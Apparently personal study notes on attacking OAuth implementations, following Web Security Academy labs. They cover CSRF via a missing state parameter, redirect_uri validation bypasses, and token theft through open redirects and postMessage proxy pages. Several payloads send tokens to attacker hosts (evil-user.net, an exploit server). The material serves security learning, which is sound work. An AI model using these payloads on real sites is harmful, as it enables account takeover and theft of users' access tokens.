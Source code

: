 ## Exploiting OAuth Authentication vulnerabilities
* vulnerability can arise in the client application's implementation of OAuth and configuration of the OAuth service it self.

## vulnerabilities in the OAuth Client Application

### **improper implementation of the implicit grant type.**
* in this flow the access token is sent from OAuth service to the client application via the user's browser as url fragment.
* The trouble is, if the application wants to maintain the session after the user closes the page, it needs to store the current user data somewhere in the server.
* To solve this problem, the client application will often submit this data to the server in a `POST` request and then assign the user a session cookie.
* ```To exploit attacker simply change the parameter send to server for storage and login as victim ```.

### Flawed CSRF Protection
* the state parameter ideally contains unguessable  value , such as hash or something tied to the user's session.
* this value is then passed back and forth between the client application and OAuth service as a form of `CSRF Token` for the client application.
* consider a application that allows users to log in using classic password-based login or by linking their social-media account using OAuth. in this case if the application fail to use `state` parameter, an attacker could potentially hijack a victim's user account.
* In This type of attack we directly login with social media account and forward request until we got `oauth?code=(code)` copy that code and drop the request so we have unused code and we craft `csrf payload that make request to domain.com/oauth-linking?code=(code we generated thorugh our social media account ` and when victim go to our sended link he attach his account with our social media account due to `missing of state ` parameter which prevents CSRF. and we can easily login to their account.

### Leaking Authorization codes and access Token
* Depending on the grant type, either a code or token is sent via the victim's browser to the `/callback` endpoint specified in the `redirect_uri` parameter of the authorization request. If the OAuth service fails to validate this URI properly, an attacker may be able to construct a CSRF-like attack, tricking the victim's browser into initiating an OAuth flow that will send the code or token to an attacker-controlled `redirect_uri`
* see all request and analyze authorization request.
* see if this contain `redirect_uri` parameter which redirect the user with authorization code.
* we craft `CSRF PAYLOAD` and send it to victim and if victim have active session he redirect to our exploit server with `authorization code` and we can replace it with our and we have full control of victim account.

### Flawed redirect_uri validation
* best practice for client applications to provide a whitelist of their genuine callback URIs when registering with the OAuth service.
* so it can validate the `redirect_uri` parameter against this whitelist and if not in whitelist it can give error.
#### but this can be bypassed
* Some implementations allow for a range of subdirectories by checking only that the string starts with the correct sequence of characters i.e. an approved domain. You should try removing or adding arbitrary paths, query parameters, and fragments to see what you can change without triggering an error.
* You may occasionally come across server-side parameter pollution vulnerabilities. Just in case, you should try submitting duplicate `redirect_uri` parameters as follows:  
```js
https://oauth-authorization-server.com/?client_id=123&redirect_uri=client-app.com/callback&redirect_uri=evil-user.net
```
* Some servers also give special treatment to `localhost` URIs as they're often used during development. In some cases, any redirect URI beginning with `localhost` may be accidentally permitted in the production environment. This could allow you to bypass the validation by registering a domain name such as `localhost.evil-user.net`.
* we need to experiment with other parameters to change it, it may affect other parameter's validation eg. changing `response_mode` from `query` to `fragment` can sometimes completely alter the parsing of the `redirect_uri` and we bypass blocking.

### Stealing Codes and Access Token via a Proxy Page
* Against more robust targets, you might find that no matter what you try, you are unable to successfully submit an external domain as the `redirect_uri`.
* try to work out whether you can change the `redirect_uri` parameter to point to any other pages on a whitelisted domain.
* Try to find ways that you can successfully access different subdomains or paths or use `Directory traversal ` tricks to supply any arbitrary path on the domain.
```js
https://client-app.com/oauth/callback/../../example/path
```
* once we have identified which other pages are able to set as `redirect URI` we audit them for additional vulnerabilities that you can leak the code.
* For the `authorization code flow`, you need to find a vulnerability that gives you access to the query parameters.
* for the `implicit grant type`, you need to extract the URL fragment.
* one of the most usefull vulnerability for this purpose is an `Open Redirect`, we can use this as proxy to forward victims along with their code to attacker controlled domain.

`NOTE that for the implicit grant type, stealing an access token doesn't just enable you to log in to the victim's account on the client application. As the entire implicit flow takes place via the browser, you can also use the token to make your own API calls to the OAuth service's resource server. This may enable you to fetch sensitive user data that you cannot normally access from the client application's web UI.`

### Stealing OAuth Token via an open Redirect.
* see the authorization request's `redirect_uri` parameter we cant change it to exploit server but we can check `Directory traversal vuln` and check `/../`
* this is vulnerable to directory traversal
* and we find any web request that point to another url or directory 
* `/post/next?path=(here we put our exploit server uri)` and it redirects us to exploit server with OAuth Token.
* we make an script that execute so we get their token in the access log of our server
```js
<script>
window.location='/?'+document.location.hash.substr(1)
</script>
```
* some application make another request with authorization header to retrieve the information so we attach victim authorization code with this request and we got victims info including API keys.

### Stealing OAuth access token via a Proxy page
* since we dint able to make redirect_uri to make external call
* we analyse the application and find any other vulnerability we can take advantage of that.
* here we have vulnerable in comment section that  `/post/comment/comment-form` page in Burp and notice that it uses the `postMessage()` method to send the `window.location.href` property to its parent window. Crucially, it allows messages to be posted to any origin (`*`).
* final csrf link is 
```js
<iframe src="https://YOUR-LAB-AUTH-SERVER/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>
```
`<script>  
  window.addEventListener('message', function(e) {  
    fetch("/" + encodeURIComponent(e.data.data))  
  }, false)  
</script` this script listen web message in the exploit server and revel the message.
